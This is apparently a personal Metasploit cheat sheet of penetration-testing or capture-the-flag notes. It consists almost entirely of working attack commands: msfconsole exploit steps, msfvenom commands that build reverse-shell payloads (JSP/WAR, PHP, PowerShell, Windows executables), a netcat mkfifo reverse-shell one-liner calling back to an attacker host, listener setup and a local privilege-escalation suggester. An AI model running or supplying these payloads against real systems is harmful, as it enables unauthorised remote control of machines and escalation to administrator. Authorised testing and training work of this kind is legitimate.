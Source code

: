 
MSFconsole
---
```
search $TARGET_SERVICE
# search type:exploit
use X
options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```bash
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```bash
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```bash
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

```bash
msfconsole -q -x "load auto_add_route; use socks_proxy;run -j;use payload/windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443; generate -f exe -o met.exe; to_handler"
```

Non-staged PHP reverse shell, netcat compatible

#msfvenom #revshell #php-shell

```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -f raw -o shell.pHP
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=tun0 LPORT=443 -f exe -o shell.exe
msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_https
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter_reverse_https;set LHOST tun0;set LPORT 443;run;"
```
the forward slash indicates that is a "staged" payload, the one with the underscore means it’s non-staged and can be handled by program like nc

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=tun0 LPORT=443 -f exe -o shell.exe
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $LOCAL_IP;set LPORT 443;run;" 
```